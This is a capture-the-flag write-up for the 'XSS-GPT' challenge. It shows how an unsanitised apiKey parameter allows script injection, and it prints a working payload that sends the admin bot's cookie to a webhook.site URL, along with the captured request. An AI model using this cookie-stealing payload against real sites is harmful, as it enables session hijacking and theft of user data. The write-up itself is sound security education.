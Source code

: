 
---

# XSS-GPT Writeup


![Challenge](./screenshot/XSS-GPT%201.png)
![Web-Page](./screenshot/XSS-GPT%202.png)

---

## Challenge

> I built a chatgpt website using chatgpt. Feel free to try it! Remember to report to me if you found any bug
>
> **Hint 1:** Try to change the parameter
> **Hint 2:** Try to steal admin’s cookie

The given bot code showed:

* The admin bot visits `http://127.0.0.1/?apiKey=<input>`
* A cookie named `flag` is set on that domain
* Our task is to grab it.

---

## Solution

### Step 1 — Intercept the request

Intercept the **Report Admin()** request in Burp Suite and send it to Repeater.
This confirmed the `apiKey` value is exactly what the admin bot loads.

![Burp Repeater 1](screenshot/XSS-GPT%203.png)

---

### Step 2 — Craft the payload

Get webhook URL first! 

![webhook.site](screenshot/XSS-GPT%204.png)


Payload (before encoding):

```html
</script><script>
location.href='https://webhook.site/<your-id>?c='+document.cookie
</script>
```

This makes the bot immediately redirect to my webhook with its cookie in the query string.

Encode this payload (URL/hex encoding) using Burp’s built-in encoder:

![Craft the payload](screenshot/XSS-GPT%205.png)

Encode payload to URL.

---

### Step 3 — Deliver to the admin

Visit the challenge site with the payload as the `apiKey` value, then click **Report Admin**.

The admin bot visits our malicious URL and executes the script.

![Sent method to repeater](screenshot/XSS-GPT%206.png)

![Report to admin screenshot](screenshot/XSS-GPT%207.png)

---

### Step 4 — Get the flag

Back in webhook.site, we see a request like:

```
GET /<your-id>?c=flag=SKR{...}
```

🎉 The flag was successfully stolen.

![Webhook screenshot](screenshot/XSS-GPT%208.png)

---

## Key Takeaways

* The vulnerable sink was the `apiKey` parameter, directly injected into the page.
* Breaking out of the `<script>` context allowed custom JS injection.
* Always encode payloads before injecting into URLs.
* Classic cookie-stealing XSS works perfectly against bot challenges.

---